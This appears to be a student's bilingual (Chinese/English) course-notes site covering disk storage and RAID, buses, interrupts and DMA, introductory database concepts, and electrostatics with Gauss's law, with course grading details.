tracks: each disk surface is divided into concentric circles
每一个盘上都有许多个同心圆轨道，称为磁道
-
sectors: each track is in turn divided into sectors, which is the smallest unit that can be read or written
每一个磁道又被分成了许多个扇区，扇区是硬盘上最小的可读写单元

To access data of disk¶
在磁盘上寻找数据首先需要先找到对应的磁道，然后找到对应的扇区，最后才能读取数据。
-
Seek: position read/write head over the proper track
寻找对应扇区是需要把磁头移动到对应的磁道上，这个过程称为寻道（seeking）
-
Rotational latency: wait for desired sector
找到对应的磁道之后，还需要等待磁盘旋转到对应的扇区，这个过程称为旋转延迟（rotational latency）
- average latency is the half-way round the disk
-
Transfer: time to transfer a sector——function of rotation speed
等待磁盘旋转到对应的扇区之后，就可以传输数据，进行数据的读写了
Dependability¶
可靠性（Dependability / Reliability）是衡量设备能够正常工作的能力
Computer system dependability is the quality of delivered service such that reliance can justifiably be placed on this service.
衡量可靠性的方法：
-
MTTF（mean time to failure）
平均无故障时间
-
MTTR （mean time to repair）
平均修复时间
-
MTBF（Mean Time Between Failures）= MTTF+ MTTR
平均故障间隔时间
-
Availability = MTBF / (MTBF + MTTR)
可用性
提升 MTTF 的三种方法
-
Fault avoidance:
preventing fault occurrence by construction
例如在硬盘达到使用寿命之前替换硬盘
-
Fault tolerance:
using redundancy to allow the service to comply with the servic specification despite faults occurring, which applies primarily to hardware faults
例如将硬盘的内容在多处进行备份
-
Fault forecasting:
predicting the presence and creation of faults, which applies to hardware and software faults
例如通过监控硬盘的使用情况，预测硬盘的可能出现的故障并提前进行维护
Reliability of \(N\) disks = Reliability of \(1\) Disk \(÷ \, N\)
Redundant Arrays of (Inexpensive) Disks¶
有时候我们会使用多个硬盘组成一个磁盘阵列来储存数量庞大的数据，好处是可以有多个读写口，可以同时进行数据访问，但这样就会降低硬盘的可靠性，


RAID 0: No Redundancy¶
Data is striped across a disk array but there is no redundancy to tolerate disk failure.
数据被分割，存放在多个硬盘里，但并没有任何冗余保障，一旦硬盘出现故障，数据就会丢失
RAID 0 is something of a misnomer as there is no Redundancy
misnomer: 误称，用词不当
RAID 1: Disk Mirroring/Shadowing¶

每一个磁盘都有一个镜像，数据同时存放在两个硬盘上，一旦一个硬盘出现故障，另一个硬盘上的数据仍然可以被访问
- 写的时候需要同时对两个盘进行写入
- 代价昂贵：需要两倍的硬盘空间（额外开销）
RAID 3: Bit‐Interleaved Parity Disk¶

P contains sum of other disks per stripe mod 2 （“parity”）
额外增加一个硬盘用来存放校验位，原理是奇偶校验
- 当其中一个盘的数据出现问题时，可以通过其他盘的数据和校验位来恢复数据
- 问题在于我们无法确定哪一个盘出现问题（具体怎么解决老师也没讲）
RAID 4: Block‐Interleaved Parity Disk¶

RAID 4 的设计灵感直接来自于 RAID 3，RAID 4 让每一个 sector 都有自己单独的校验位，这样就可以确定出错的硬盘
- 允许同时对不同的盘进行独立的读操作
- 对于 small read 和 large write 表现良好
- 对于 small write 表现不佳，例如上面同时写 D0 和 D5 时就要对 Parity 的盘修改两次，会增加开销

RAID 5: Block‐Interleaved Distributed Parity¶
RAID 5 相对于 RAID 4 的改进在于将校验位分布到所有的硬盘上，这样就可以避免 RAID 4 中的写入问题

- 例如上面的例子，要修改 D0 和 D5 时会同时对 0，1，3，4 四个盘进行写入，可以一次性完成写入操作
RAID 6: P+Q Redundancy¶¶
有 P, Q 两个校验位，可以恢复出两个盘的内容。
具体的实现没讲
RAID Techniques

Buses and Other Connections between Processors Memory, and I/O Devices¶
Bus：shared communication link（one or more wires）
Difficult design:
- may be bottleneck
- length of the bus
- number of devices
- tradeoffs (fast bus accesses and high bandwidth)
- support for many different devices
- cost
Bus Basics¶
总线并不只有单独一根线，实际上时多条线组合在一起，把各种设备相互连接起来。
A bus contains two types of lines
- Control lines: signal requests and acknowledgments, and to indicate what types of information is on the data lines.
- Data lines: carry information (e.g., data, addresses, and complex commands) between the source and the destination.
Bus transaction：include two parts: sending the address and receiving or sending the data
- input: inputting data from the device to memory
- output: outputting data to a device from memory
Bus Transaction


Types of buses:
- processor‐memory (short, high speed, custom design)
- backplane (high speed, often standardized, e.g., PCI)
- I/O (lengthy, different devices, standardized, e.g., SCSI)
Synchronous vs. Asynchronous¶
-
Synchronous bus use a clock and a synchronous protocol, fast and small but every device must operate at same rate and clock skew requires the bus to be short
所有的设备都有相同的时钟频率，但由于数据传输有延迟，clock skew 无法避免，所以信号线的长度必须尽可能短
-
Asynchronous bus don’t use a clock and instead use handshaking
设备不需要有相同的时钟频率，通过握手协议来进行数据传输
握手协议

- When memory saw the ReadReq line, it reads the address from the data bus, starts the memory read operation，then raises Ack to tell the device that the ReadReq signal has been seen.
- I/O device saw the Ack line high and releases the ReadReq data lines.
- Memory sees that ReadReq is low and drops the Ack line.
- When the memory has the data ready, it places the data on the data lines and raises DataRdy.
- The I/O device sees DataRdy, reads the data from the bus , and signals that it has the data by raising ACK.
- The memory sees Ack signals, drops DataRdy, and releases the data lines.
- Finally, the I/O device, seeing DataRdy go low, drops the ACK line, which indicates that the transmission is completed.
- 首先由 I/O 设备发出 ReadReq 信号，请求从主存储器读取数据，并传输相应的内存地址，主存储器接收到这个信号并读取地址后，发出 Ack 信号，表示已经收到了 ReadReq 信号，与此同时开始准备数据
- I/O 设备收到 Ack 信号后，把 ReadReq 信号置低位，同时不再占用 data bus
- 主存储器发现 ReadReq 信号已经被置低，就会把 Ack 信号置低
- 当主存储器准备好数据后，会把数据放到 data bus 上，并升高 DataRdy 信号
- I/O 设备收到 DataRdy 信号后，就会读取 data bus 上的数据，当数据已经读取完不之后，会发出 ACK 信号，表示已经读取完数据了
- 主存储器收到 ACK 信号后，会把 DataRdy 信号置低，同时不再占用 data bus
- I/O 设备收到 DataRdy 信号后，会把 ACK 信号置低，表示整个数据传输过程已经完成了，总线可以用于其他的操作了
Bus Arbitration¶
总线上由多个设备共享，其中如果多个设备同时需要使用总线，就会出现冲突，这时就需要总线仲裁（bus arbitration）来解决这个问题
Example


在上面的例子中，总线上只有 CPU 作为 master，由它来决定哪一个 I/O 设备可以占用总线执行操作，实际上总线上可能会有多个 master，这些 master 具有不同的优先级。
Two factors in choosing which device to grant the bus:
-
bus priority
设备之间的优先级
-
fairness
公平性，即每一个设备都有机会占用总线
Interfacing I/O Devices to the Memory, Processor, and Operating System¶
I/O 系统的三个特点
- shared by multiple programs using the processor.
- often use interrupts to communicate information about I/O operations.
- The low‐level control of I/O devices is complex
OS 和 I/O 设备之间的通信
-
The OS must be able to give commands to the I/O devices.
OS 要能给 IO 设备发出命令，比如启动、关机
-
The device must be able to notify the OS, when I/O device completed an operation or has encountered an error.
当 I/O 设备完成一个操作或者遇到错误时，需要有办法通知 OS
-
Data must be transferred between memory and an I/O device
数据需要在内存和 I/O 设备之间传输
当 CPU 需要访问特定的 I/O 设备时，要有一个地址（或者可以理解为编号）来指向这个设备，这个地址称为 I/O 端口（I/O port）
-
memory-mapped I/O
把内存地址中的一部分分出来给 I/O 设备用，使用 ld/sd 来访问时，会自动转化为访问 I/O 设备
-
special I/O instructions
为访问 I/O 设备设计专门的指令，例如 x86 中的
in和out指令
Communication with the Processor¶
-
Polling: The processor periodically checks status bit to see if it is time for the next I/O operation.
轮询，定期检查 I/O 设备是否需要执行什么操作，但是会占用 CPU.
-
Interrupt: When an I/O device wants to notify processor that it has completed some operation or needs attentions, it causes processor to be interrupted.
当 I/O 设备需要获取 CPU 的注意时（例如完成了某个操作，需要 CPU 把数据读取走），向 CPU 传递一个中断，等待其响应。相较于轮询的好处是 CPU 可以一直做自己的事情，直到出现中断时才会去处理 I/O 设备的请求。
-
DMA (direct memory access): the device controller transfer data directly to or from memory without involving processor.
I/O 设备直接和内存交互，不需要 CPU 参与。
Interrupt-Driven I/O mode¶

CPU 向打印机发送打印的请求之后就会去做其他的任务，打印机每一次完成打印之后都会给 CPU 发送一个中断信号，CPU 收到中断信号后就会去处理打印机的请求，然后继续做自己的任务。
DMA transfer mode¶

每一次使用 DMA 传输数据时，CPU 需要先设置好 DMA，然后 DMA 就会帮助 I/O 设备和内存进行直接的数据传输，不需要 CPU 参与。
A DMA transfer need three steps:
-
The processor sets up the DMA by supplying some information, including the identity of the device, the operation, the memory address that is the source or destination of the data to be transferred, and the number of bytes to transfer.
每次传输数据前，CPU 都要配置好 DMA，包括哪个设备、做什么操作、内存地址、数据大小等。
-
The DMA starts the operation on the device and arbitrates for the bus. If the request requires more than one transfer on the bus, the DMA unit generates the next memory address and initiates the next transfer.
DMA 开始操作设备，占用总线。如果需要多次传输，DMA 会自动生成下一个内存地址，开始下一次传输。
DMA 也是挂在总线上的 master, 但优先级没有 CPU 高。因此它会趁 CPU 空闲的时候搬运数据，可以充分利用总线。
-
Once the DMA transfer is complete, the controller interrupts the processor, which then examines whether errors occur.
DMA 完成后，给 CPU 发中断信号，由CPU 检查是否有错误。
Compare polling, interrupts, DMA
-
The disadvantage of polling: wasting processor time. When the CPU polls the I/O devices periodically, the I/O devices maybe have no request or have not get ready.
轮询会浪费 CPU 大量的时间，因为大部分情况下 I/O 设备都没有请求或者还没有准备好。
-
If the I/O operations is interrupt driven, the OS can workon other tasks while data is being read from or written tothe device.
中断驱动的 I/O 操作可以让 CPU 在 I/O 设备读写数据的时候做其他的事情。
-
Because DMA doesn’t need the control of processor, it will not consume much of processor time.
DMA 不需要 CPU 的控制，所以不会占用 CPU 的时间，但 DMA 实际上只用于数据的传输，它与 polling 和 interrupt 并不冲突
Ended: 计算机组成与设计
计算机体系结构 ↵
计算机体系结构¶
约 106 个字 预计阅读时间不到 1 分钟
Abstract
“计算机体系结构”课程相关笔记
- 教材：Computer Architecture: A Quantitative Approach \(6^{th}\) edition
- 老师：常瑞
- TA：林熙、李晨潇
分数构成
- 期末考试：40%
-
学习过程评估：60%
- 作业：6%
- 课堂参与/展示：6%
-
project：48%
- Forwarding+Pipeline：8%
- Interrupt exception：8%
- Branch prediction：8%
- Cache design：10%
- Out-of-order execution：14%
Fundamentals of Computer Design¶
约 4 个字 预计阅读时间不到 1 分钟
¶
约 0 个字 预计阅读时间不到 1 分钟
¶
约 0 个字 预计阅读时间不到 1 分钟
¶
约 0 个字 预计阅读时间不到 1 分钟
¶
约 0 个字 预计阅读时间不到 1 分钟
Ended: 计算机体系结构
数据库系统 ↵
数据库系统¶
约 81 个字 预计阅读时间不到 1 分钟
Abstract
“数据库系统”课程相关笔记
- 教材：Database System Concepts(7th Edition), Abraham Silberschatz, Henry F.Korth, S.Sudarshan, McGraw-Hill Companies
- 老师：陈刚
- TA：刘得志
分数构成
- 期末考试：50%，允许携带一张 A4 纸的 cheat sheet
- 作业/练习：10%
- 课堂 quiz：10%
- 实验：30%
Introduction¶
约 1142 个字 7 张图片 预计阅读时间 5 分钟
Purpose of Database Systems¶
Characteristics of DBMS（Database Management System）：
- Efficiency and scalability in data access
- Reduced application development time
- Data independence (including physical data independence and logical data independence)
- Data integrity and security
- Concurrent access and robustness (i.e., recovery)
通常的文件处理系统具有以下的问题：
-
Data redundancy and inconsistency
数据冗余与不一致性：有各种各样的文件格式，并且数据重复存储在不同的文件中
-
Difficulty in accessing data
数据访问困难：对于每一个新任务而言，都需要编写一个新的程序
-
Data isolation
数据隔离（孤立）：数据分散在不同的文件中，数据难以共享
-
Integrity problems
完整性问题：数据的完整性约束被隐藏在程序代码中（例如，检查余额是否为非负数），很难为现有的程序和文件添加新的约束
-
Atomicity problems
原子性问题：在文件系统中，很难确保所有相关的操作都能成功完成
Failures may leave database in an inconsistent state with partial updates carried out
-
Concurrent-access anomalies
并发访问异常：在文件系统中，很难确保多个用户同时访问数据时不会发生冲突
-
Security problems
安全问题：在文件系统中，很难确保只有授权的用户才能访问数据（i.e., Right person uses right data）
而在数据库系统为以上这些问题都提供了解决方案。
View of Data¶

Three-level abstraction of databases
- Physical level：描述数据在磁盘上的存储方式
- Logical level：描述在数据库中储存的数据，以及数据之间的关系
- View level：不同类型用户所看到的数据不同
Schemas and Instances¶
- Schema（模式）– the structure of the database on different level
- Instance（实例）– the actual content of the database at a particular point in time
它们的关系类比于编程语言中的 type 和 variable
- type \(\leftrightarrow\) schema, variable \(\leftrightarrow\) instance
Data Independence¶
Ability to modify a schema definition at one level without affecting a schema definition at a higher level.
- Physical Data Independence (物理数据独立性) – the ability to modify the physical schema without changing the logical schema
- Logical Data Independence (逻辑数据独立性) - the ability to modify the logical schema without changing the user view schema
Data Models¶
Data models is a collection of tools for describing data structure, data relationships, data semantics, data constraints.
不同层次的数据抽象需要不同的数据模型来描述
- Entity-Relationship model（实体-联系模型）
- Relational model(关系模型)
-
Object-based data model（基于对象的数据模型）
- Object-oriented model（面向对象模型）
- Object-relational model（对象-关系模型）
-
Semi-structured data model（XML）（半结构化数据模型）
-
Other older models:
- Network model (网状模型)
- Hierarchical model(层次模型)
Database Language¶
数据库语言主要分为三类：
-
Data Definition Language (DDL)：Specification notation for defining the database schema.
定义数据库的结构、访问方法、一致性约束等，例如创建表、删除表、修改表等
-
Data Manipulation Language (DML)：Language for accessing and manipulating the data in the database.
对数据库中的数据进行操作，例如插入数据、删除数据、更新数据等
-
Data Control Language (DCL)
Data Definition Language (DDL，数据定义语言)¶
DDL statements are compiled, resulting in a set of tables stored in a special file called data dictionary (数据字典).
Data dictionary contains metadata (元数据，i.e. the data about data) about
- Database schema
-
Integrity constraints
- Primary Key
- Referential integrity
-
Authorization
Data Manipulation Language (DML，数据操作语言)¶
Two classes of languages
- Procedural (过程式) – user specifies what data is required and how to get those data（e.g. C）
- Declarative (nonprocedural，陈述式，非过程式) – user specifies what data is required without specifying how to get those data（e.g. SQL）
SQL is the most widely used query language
SQL（Structured Query Language）¶
SQL = DDL + DML + DCL
SQL is the most widely used non-procedural query language.

Database Design¶
Entity-Relationship (E-R) Model¶

Relational Model¶
A Sample of Relational Model: University Database

Database Users and Administrators¶
Users are differentiated by the way they expect to interact with the system.
- Naive users（普通用户）– invoke one of the permanent application programs that have been written previously by a high level language
- Application programmers（应用程序员）– interact with system via SQL calls
- Sophisticated users（高级用户）– form requests in a database query language
- Specialized users（专业用户）– write specialized database applications that do not fit into the traditional data processing framework
- Database administrator (DBA，数据库管理员): A special user having central control over database and programs accessing those data.

Transaction Management¶
- Concurrent use/access is important, but causes problems/conflict.
- A transaction is a collection of operations that performs a single logical function in a database application.
- Transaction requirements include atomicity, consistence, isolation, durability.
- Transaction-management component ensures that the database remains in a consistent (or correct) state, although system failures (e.g., power failures and operating system crashes) and transaction failures.
- Concurrency-control manager controls the interaction among the concurrent transactions.
Database Architecture¶

数据库架构主要有三个部分：
- Storage manager
- Query processor
- Database administrator
Storage Manager¶
存储管理器是负责提供底层数据和应用程序之间的接口的模块，包括
- Transaction manager
- Authorization and integrity manger
- File manager (interaction with the file system to process data files, data dictionary, and index files)
- Buffer manager
Query Processor¶
Query Processor includes DDL interpreter, DML compiler, and query processing.
- Parsing and translation
- Optimization
- Evaluation

Relational Model¶
约 232 个字 预计阅读时间 1 分钟
Structure of Relational Databases¶
Basic Structure¶
Formally, given set \(D_1, D_2, \cdots, D_n\), a relation \(r\) is a subset of \(D_1 \times D_2 \times \cdots \times D_n\). —— a Cartesian product (笛卡儿积) of a list of domain \(D_i\) Thus a relation is a set of n-tuple \((a_{1j}, a_{2j}, \cdots, a_{nj})\) where each \(a_{ij} \in D_i(i \in [1, n])\)
Attribute Types¶
- Each attribute of a relation has a name.
- The set of allowed values for each attribute is called the domain (域) of the attribute.
- The special value null is a member of every domain.
Relation Schema¶
Assume \(A_1, A_2, \cdots, A_n\) are attributes, then \(R = (A_1, A_2, \cdots, A_n)\) is a relation schema. e.g. instructor = (ID, name, dept_name, salary).
A relation instance \(r\) defined over schema \(R\) is denoted by \(r(R)\). (or \(r(R)\) us a relation on relation schema \(R\)) e.g. instructor(instructor-schema) = instructor(ID, name, dept_name, salary)
Relation Instance¶
The current values (i.e. relation instance) of a relation are specified by a table.
An element \(t\) of \(r\) is a tuple, represented by a row in a table.
- 若 \(t\) 是一个元组，那么 \(t[name]\) 表示元组 \(t\) 中名称为 \(name\) 的属性的值。
Ended: 数据库系统
面向对象程序设计 ↵
面向对象编程¶
约 51 个字 预计阅读时间不到 1 分钟
Abstract
“面向对象程序设计”课程相关笔记
- 教材：无
- 老师：许威威
分数构成
- 期末考试：50%
- 作业/练习：10%
- 课堂 quiz：10%
- 实验：30%
Ended: 面向对象程序设计
Ended: Computer Science
数理 ↵
数学分析（甲）Ⅱ(H)¶
约 90 个字 1 张图片 预计阅读时间不到 1 分钟
任课教师：阮火军
成绩组成
- 作业+点名 20%
- 小测 20%
- 期末 60%
由于一直以来做的都是纸质笔记，页数较多不方便搬上来，因而在这里只放期末补天时做的一些重点知识整理。

线性代数Ⅱ(H)¶
约 73 个字 1 张图片 预计阅读时间不到 1 分钟
任课教师：吴志祥
由于一直以来做的都是纸质笔记，页数较多不方便搬上来，因而在这里只放期末补天时做的一些重点知识整理。
普通物理学Ⅱ ↵
普通物理学Ⅱ(H)¶
约 141 个字 预计阅读时间 1 分钟
任课教师：方明虎
竺院最难传说と绝凶の课程！普通物理学Ⅱ(H)です
普通物理学Ⅱ(H)的内容都在五个方程中 $$ \vec{F} = q(\vec{E} + \vec{v} \times \vec{B}) $$ $$ \oiint \vec{E}·d\vec{A} = \frac{Q_{inside}}{\epsilon_0} $$ $$ \oiint \vec{B}·d\vec{A} = 0 $$ $$ \oint \vec{E}·d\vec{l} = -\frac{d\Phi_B}{dt} $$ $$ \oint \vec{B}·d\vec{l} = \mu_0 I + \mu_0 \epsilon_0 \frac{d\Phi_E}{dt} $$
Table of Contents¶
向普通物理学，投降！
电学¶
约 6958 个字 53 张图片 预计阅读时间 28 分钟
电荷和库仑定律¶
- proton(质子)，electron(电子)，neutron(中子)
- quark(夸克)： \(-\dfrac{1}{3} e\) 或 \(+\dfrac{2}{3} e\)
- Insulators (绝缘体)
- Conductors (导体)
- Semiconductors (半导体)
- Superconductors (超导体)
电荷密度
一般而言，电荷有三种这样的密度：
- Linear Charge density(线电荷密度) \(\lambda = \dfrac{dq}{dL}\)
- Surface Charge Density(面电荷密度) \(\sigma = \dfrac{dq}{dA}\)
- Volume Charge Density(体电荷密度) \(\rho = \dfrac{dq}{dV}\)
A Ring of Charge¶

推导： $$ \lambda = \dfrac{q}{2\pi R}$$ $$ dF = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0dq}{r^2} = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rd\Phi}{(z^2+R^2)} $$ $$ \begin{aligned} F_z &= \int dF_z = \int dF\cos\theta \\ &= \int \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rd\Phi}{z^2+R^2} \dfrac{z}{\sqrt{z^2+R^2}}\\ &= \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0\lambda Rz}{(z^2+R^2)^{3/2}} \int_0^{2\pi} d\Phi \\ &= \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0qz}{(z^2+R^2)^{3/2}} \\ \end{aligned} $$
从而推得 $$ \overrightarrow{F} = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0qz}{(z^2+R^2)^{3/2}} \hat{k}$$
当\(z >> R\)时，有 $$ \overrightarrow{F} \approx \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0q}{z^2} \hat{k}$$
A Disk of Charge¶

推导： $$ \sigma = \dfrac{q}{\pi R^2} $$ $$ dq = \sigma dA = \sigma(2\pi \omega d\omega) = 2\pi\sigma\omega d\omega $$ $$ dF_z = \dfrac{1}{4\pi\epsilon_0} \dfrac{q_0(2\pi\sigma\omega d\omega)z}{(z^2+\omega^2)^{3/2}} $$
电场¶
Coulomb's Law: $$ \overrightarrow{F} = \dfrac{1}{4\pi\epsilon_0} \dfrac{Q q_0}{r^2} \hat{r} $$ $$ \overrightarrow{E} = \lim_{q_0 \rightarrow 0} \dfrac{\overrightarrow{F}}{q_0} $$
Dipole（电偶极矩）¶
定义：两个相反等量电荷之间的距离乘以电荷量，\(\overrightarrow{p} = q\overrightarrow{d}\)
flowchart LR
A(( -q )) --> B(( +q ))
坐标轴上的电偶极矩
 $$ E_x(x,0) = 0 $$
$$ E_x(x,0) = 0 $$
又有 \(\sin\theta = \dfrac{a}{r}\), \(r^2 = x^2+a^2\), 从而 $$ E_y(x,0) = -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{(x^2+a^2)^{3/2}} $$
 $$ E_x(0,y) =0 $$
$$ E_x(0,y) =0 $$
我们可以对以上两种情况进行总结：
沿x轴： $$ E_x(r,0) = 0 $$ $$ E_y(r,0) = -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{(r^2+a^2)^{3/2}} $$
当 $ r >> a$ 时， $$ E_y(r,0) \approx -2 \dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{r^3} $$
沿y轴： $$ E_x(0,r) = 0 $$ $$ E_y(0,r) = \dfrac{Q}{4\pi\epsilon_0} \dfrac{4ar}{r^4 \left( 1-\dfrac{a^2}{r^2} \right)^2} $$
当 \(r >> a\) 时， $$ E_y(0,r) \approx 4\dfrac{1}{4\pi\epsilon_0} \dfrac{Qa}{r^3} $$
综上，我们可以得到 $$ E \propto \dfrac{1}{r^3} $$
无限线电荷¶

Therefore, $$ dE = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda \cos^2 \theta dx}{r^2} $$
又因为 $$ x = r\tan \theta $$ $$ dx = r\sec^2 \theta d\theta $$ 于是最终得到 $$ dE = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} $$
Components: $$ dE_x = dE \sin\theta = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} \sin\theta $$ $$ dE_y = dE \cos\theta = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda d\theta}{r} \cos\theta $$ $$ E_x = \int dE_x = -\dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda}{r} \int_{-\pi /2}^{{+\pi /2}} \sin\theta d\theta = 0 $$ $$ E_y = \int dE_y = \dfrac{1}{4\pi\epsilon_0} \dfrac{\lambda}{r} \int_{-\pi /2}^{{+\pi /2}} \cos\theta d\theta = \dfrac{\lambda}{2\pi\epsilon_0 r} $$
电场强度的变化
- Dipole: \(E \propto \dfrac{1}{r^3}\)
- Point Charge: \(E \propto \dfrac{1}{r^2}\)
- Infinite Line of Charge: $E \propto \dfrac{1}{r} $
均匀环电荷¶
 $$ dE = \dfrac{\lambda ds}{4\pi\epsilon_0} = \dfrac{\lambda ds}{4\pi\epsilon_0(z^2+R^2)} $$
$$ dE = \dfrac{\lambda ds}{4\pi\epsilon_0} = \dfrac{\lambda ds}{4\pi\epsilon_0(z^2+R^2)} $$
- if \(z >> R\), then \(E_z \approx \dfrac{q}{4\pi\epsilon_0z^2}\)
- if \(z \rightarrow 0\), then \(E_z \approx 0\)
均匀圆盘电荷¶
 $$ dq = 2\pi\omega·d\omega·\sigma $$
$$ dq = 2\pi\omega·d\omega·\sigma $$
-
if \(R >> z\)， \(\dfrac{1}{\sqrt{1+\dfrac{R^2}{z^2}}} \rightarrow 0\), so \(E = \dfrac{\sigma}{2\epsilon}\) (Infinite sheet)
-
if \(z >> R\)， \(\dfrac{1}{\sqrt{1+\dfrac{R^2}{z^2}}} = 1 - \dfrac{1}{2} \dfrac{R^2}{z^2} + \dfrac{3}{8} \dfrac{R^4}{z^4} - \cdots\)
so $E = \dfrac{\sigma}{2\epsilon} \left( 1- \dfrac{1}{2} \dfrac{R^2}{z^2} + \dfrac{3}{8} \dfrac{R^4}{z^4} - \cdots \right) \approx \dfrac{\sigma}{2\epsilon} \dfrac{1}{2} \dfrac{R^2}{z^2} = \dfrac{q}{4\pi\epsilon_0 z^2} $
Dipole(电偶极矩)¶


电偶极矩矢量：$ \overrightarrow{p} = q \overrightarrow{d} $ $$ \overrightarrow{\tau} = \overrightarrow{p} \times \overrightarrow{E} $$
Gauss's Law(高斯定理)¶
通量¶
Flux，流量，通量: \(\Phi = \vec{E} \cdot \overrightarrow{A} = EA\cos\theta\)
速度场的通量


 对于任意的一个闭合曲面，有
对于任意的一个闭合曲面，有
If there were within the volume no sources or sink of fluid.
如果在体积内没有流体的源头或汇集点，那么 $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} = 0 $$
If there were a source (源) within the volume: $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} > 0 $$
If there were a sink (汇) of fluid: $$ \Phi = \oiint \overrightarrow{v} \cdot d\overrightarrow{A} < 0 $$
电通量¶
Define: electric flux \(\Phi_E\) through the closed surface \(A\) $$ \Phi = \sum \overrightarrow{E} \cdot \overrightarrow{A} = \oiint \overrightarrow{E} \cdot d\overrightarrow{A} $$
- 规定电通量“向外”为正，“向内”为负
- 对于一个开放曲面（不闭合），它的方向不确定，因此电通量的符号也不确定
例题
 Imagine a cube of side a positioned in a region of constant electric field as shown
Imagine a cube of side a positioned in a region of constant electric field as shown
Which of the following statements about the net electric flux \(\Phi_E\) through the surface of this cube is true?
- A. \(\Phi_E = 0\)
- B. \(\Phi_E \propto 2a^2\)
- C. \(\Phi_E \propto 6a^2\)
 Consider 2 spheres (of radius R and 2R) drawn around a single charge as shown.
Consider 2 spheres (of radius R and 2R) drawn around a single charge as shown.
Which of the following statements about the net electric flux through the 2 surfaces (\(\Phi_{2R}\) and \(\Phi_R\)) is true?
- A. \(\Phi_R < \Phi_{2R}\)
- B. \(\Phi_R = \Phi_{2R}\)
- C. \(\Phi_R > \Phi_{2R}\)
解析：首先观察图片可以知道通过两个球面的电力线总数是相等的，因此电通量也是相等的。
具体来说，根据 $ \Phi = \oiint \overrightarrow{E} \cdot d\overrightarrow{A} $，我们知道 \(\overrightarrow{E} \propto r^2\) 和 \(\overrightarrow{A} \propto \dfrac{1}{r^2}\)，因此 \(r^2\) 和 \(\dfrac{1}{r^2}\)就抵消了，所以在这里电通量是一个与距离无关的定值。
电场的高斯定理¶
通过一个闭合曲面的总电通量与被这个曲面所包围的电荷量成正比
Example

在利用高斯公式求解 \(E\) 时，我们需要选择一个恰当的闭合曲面，使得积分的处理较为简单，即尽可能地寻找一个足够“对称”的曲面。
-
方向：我们可以使得闭合曲面与电场的方向垂直或平行
- 如果 \(\overrightarrow{E} \parallel d\overrightarrow{A}\)，那么 \(\overrightarrow{E} \cdot d\overrightarrow{A} = EdA\)
- 如果 \(\overrightarrow{E} \perp d\overrightarrow{A}\)，那么 \(\overrightarrow{E} \cdot d\overrightarrow{A} = 0\)
-
大小：当电场方向与平面垂直时，应当使得平面的任意点处电场大小\(E\)相等
这样一来就可以得到 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \oiint EdA = E \oiint dA = \dfrac{q_{enclosed}}{\epsilon_0} $$
这样一来就可以通过 \(q_{enclosed}\) 来求解 \(E\)，或反之通过 \(E\) 来求解 \(q_{enclosed}\)
我们也可以通过高斯公式来推导出库仑定律： $$ \begin{aligned} \oiint \overrightarrow{E} \cdot d\overrightarrow{A} &= \dfrac{Q}{\epsilon_0} \\ E \oiint dA &= \dfrac{Q}{\epsilon_0} \\ E \cdot 4\pi r^2 &= \dfrac{Q}{\epsilon_0} \\ E &= \dfrac{1}{4\pi\epsilon_0} \dfrac{Q}{r^2} \end{aligned}$$
高斯定理的应用¶
均匀带电球体¶
 求由一个半径为 \(a\)，电荷密度为 \(\rho (C/m^3)\) 的均匀带电球体所产生的电场强度
求由一个半径为 \(a\)，电荷密度为 \(\rho (C/m^3)\) 的均匀带电球体所产生的电场强度
-
在球体外\((r > a)\)，由高斯定理可知 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi r^2 E = \dfrac{q}{\epsilon_0} $$ 并且 $$ q = \dfrac{4}{3}\pi a^3 \rho $$
可以得到 $$ E = \dfrac{\rho a^3}{3\epsilon_0 r^2} $$
事实上利用 $E = \dfrac{1}{4\pi \epsilon_0} \dfrac{q}{r^2} $ 也可以得到相同的结果
-
在球体内\((r < a)\)，同样也由高斯定理，但此处包裹的电荷大小不再是由\(a\)决定 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi r^2 E = \dfrac{q}{\epsilon_0} $$ $$ q = \dfrac{4}{3}\pi r^3 \rho $$
可以得到 $$ E = \dfrac{\rho}{3\epsilon_0} r $$
根据以上分析，最终得到

导体中的高斯定理¶
我们知道导体内部的电场大小始终为零，再根据高斯定理可以推出其内部的电荷大小为零（在导体内部取一个很小的圆球作为高斯面即可），说明导体的电荷只分布在它的表面上。


想要求一个带电导体产生的电场，我们可以在其外表面处取一个极小的高斯面，这样可以认为被高斯面包裹的导体表面上的电荷是均匀分布的（取足够小的高斯面后可以就认为高斯面内的导体表面是平的，从而忽略尖端带电效应）。
并且因为导体内部电场强度为 0，由对称性也可以知道沿高斯面的侧面方向的电场强度之和也为 0。 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \sigma \cdot \Delta A $$ $$ \epsilon_0 E \Delta A + 0 + 0 = \sigma \cdot \Delta A $$
无限线电荷¶
由对称性可知只有在垂直于线电荷的方向上有电场强度，因此我们可以取一个半径为 \(r\)，长度为 \(h\) 的圆柱形高斯面，这样可以得到
 应用高斯定理
应用高斯定理
- 在两端：\(\overrightarrow{E} \cdot d\overrightarrow{A} = 0\)
- 在侧面： $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2\pi rhE $$ $$ q = \lambda h $$ 得到 $$ E = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
于是我们就得到了和先前使用库仑定律推导相同的结论。
Example
